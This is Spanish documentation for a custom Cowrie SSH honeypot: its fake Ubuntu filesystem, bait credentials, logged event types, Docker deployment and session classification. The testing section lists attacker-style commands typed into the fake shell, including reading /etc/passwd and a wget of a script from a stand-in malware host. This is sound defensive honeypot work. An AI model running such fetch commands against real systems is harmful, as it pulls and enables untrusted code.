

import { Aside } from '@astrojs/starlight/components';

[Cowrie](https://github.com/cowrie/cowrie) es un honeypot SSH y Telnet de media interaccion. Simula un shell Linux real — los atacantes creen que tienen acceso a un servidor genuino, pero cada accion que realizan queda registrada sin afectar ningun sistema real.

---

## Build personalizada

El directorio `sensors/cowrie/` contiene una imagen Docker custom que extiende la imagen oficial de Cowrie con:

```
cowrie/
├── Dockerfile          # Build personalizado
├── cowrie.cfg          # Configuracion del honeypot
├── userdb.txt          # Credenciales que Cowrie acepta
├── patch_auth.py       # Parche de autenticacion
├── heartbeat.py        # Beacon sidecar (reutilizable)
├── honeyfs/            # Filesystem falso
│   ├── etc/
│   │   ├── passwd      # Usuarios del sistema falsos
│   │   ├── shadow      # Hashes de passwords
│   │   ├── hostname
│   │   ├── os-release  # Ubuntu 22.04 simulado
│   │   └── ...
│   ├── home/ubuntu/
│   │   ├── .bash_history
│   │   └── .bashrc
│   ├── proc/
│   │   ├── cpuinfo     # CPU falsa (Intel Xeon simulado)
│   │   ├── meminfo     # RAM falsa
│   │   └── version
│   └── root/
│       └── .bash_history
└── txtcmds/            # Salidas estaticas de comandos
    ├── bin/
    │   ├── df          # Discos falsos
    │   ├── netstat
    │   ├── ss
    │   └── uname
    └── usr/bin/
        ├── env
        ├── free        # RAM simulada
        ├── id          # root simulado
        ├── last        # Logins previos falsos
        ├── w
        └── whoami
```

### Por que una build custom

El filesystem y los comandos falsos hacen que el sistema simulado parezca una maquina Ubuntu 22.04 real:

- `cat /etc/passwd` muestra usuarios plausibles (ubuntu, www-data, postgres, etc.)
- `uname -a` devuelve un kernel version coherente
- `free -h` muestra 8GB de RAM
- `cat /root/.bash_history` muestra comandos previos que añaden credibilidad

Esto mantiene a los atacantes mas tiempo en la sesion y captura mas comandos de post-explotacion.

### `patch_auth.py`

Parche que se aplica durante el build para modificar el comportamiento de autenticacion de Cowrie. Permite customizar que credenciales se aceptan sin modificar el core de Cowrie.

### `userdb.txt`

Define que combinaciones usuario/password acepta Cowrie como "exitosas". Por defecto incluye credenciales comunes que los atacantes prueban (root/root, admin/admin, etc.) para maximizar logins exitosos y capturar sesiones interactivas.

---

## Que captura

Cowrie registra en `cowrie.json` todos los eventos del protocolo SSH:

| Tipo de evento | Descripcion |
|---------------|-------------|
| `cowrie.session.connect` | Conexion TCP establecida con IP y puerto del atacante |
| `cowrie.login.failed` | Intento de login fallido (usuario + contrasena probados) |
| `cowrie.login.success` | Login exitoso |
| `cowrie.command.input` | Comando ejecutado en el shell falso |
| `cowrie.command.failed` | Comando no reconocido por el shell simulado |
| `cowrie.session.file_download` | Intento de descarga de archivo (wget, curl, tftp) |
| `cowrie.session.closed` | Cierre de sesion con duracion total |

---

## Flujo de logs hacia ingest-api



<Aside type="note">
Vector hace tail con offset guardado en disco — si el contenedor reinicia, retoma desde donde quedo sin re-enviar eventos. Ver [Vector](/services/vector/) para mas detalles.
</Aside>

---

## Configuracion en el proyecto

### Desarrollo local

```yaml
# docker-compose.yml
cowrie:
  build:
    context: ./cowrie
  container_name: cowrie
  ports:
    - "2222:2222"
  volumes:
    - cowrie_var:/cowrie/cowrie-git/var
    - sensors/cowrie/cowrie.cfg:/cowrie/cowrie-git/etc/cowrie.cfg:ro
    - sensors/cowrie/userdb.txt:/cowrie/cowrie-git/etc/userdb.txt:ro
```

### Produccion single-host

```yaml
cowrie:
  ports:
    - "22:2222"        # El puerto 22 real va a Cowrie
  networks:
    - edge             # Solo red edge, sin acceso a app
  security_opt:
    - no-new-privileges:true
  cap_drop:
    - ALL
  pids_limit: 256
```

### Con beacon sidecar (multi-VM)

```yaml
cowrie-beacon:
  image: python:3.12-alpine
  restart: unless-stopped
  depends_on:
    - cowrie
  environment:
    SENSOR_ID: cowrie-ssh-prod-01
    SENSOR_NAME: "SSH Honeypot (Cowrie) - VPS Berlin"
    SENSOR_PROTOCOL: ssh
    SENSOR_VERSION: cowrie
    SENSOR_PORTS: "22"
    SENSOR_PROBE_PORTS: "22"
    SENSOR_HOST: cowrie
    INGEST_API_URL: ${INGEST_API_URL}
    INGEST_SHARED_SECRET: ${INGEST_SHARED_SECRET}
  volumes:
    - sensors/cowrie/heartbeat.py:/heartbeat.py:ro
  command: ["python3", "/heartbeat.py"]
```

---

## Clasificacion automatica de sesiones

El dashboard clasifica cada sesion de Cowrie segun el numero de eventos y si el login fue exitoso:

| Clasificacion | Condicion | Descripcion |
|---------------|-----------|-------------|
| Scanner | No logueado, ≤3 eventos | Solo sondeo de puerto |
| Bot scan | No logueado, 8–30 eventos | Intento multiple de credenciales |
| Brute-force | No logueado, >30 eventos | Ataque de fuerza bruta intenso |
| Login only | Logueado, ≤8 eventos | Acceso exitoso sin actividad post-login |
| Recon | Logueado, 8–20 eventos | Reconocimiento basico tras acceso |
| Interactive | Logueado, 20–40 eventos | Sesion interactiva activa |
| Malware dropper | Logueado, >40 eventos | Actividad extensa, posible descarga de malware |

---

## Probar Cowrie localmente

```bash
# Conectate al honeypot (acepta cualquier password)
ssh -p 2222 root@localhost

# Dentro del shell falso:
whoami
cat /etc/passwd
uname -a
free -h
cat /root/.bash_history
wget http://malware.example.com/bot.sh
```

Cada comando que ejecutes aparecera en el dashboard bajo `/sessions`.
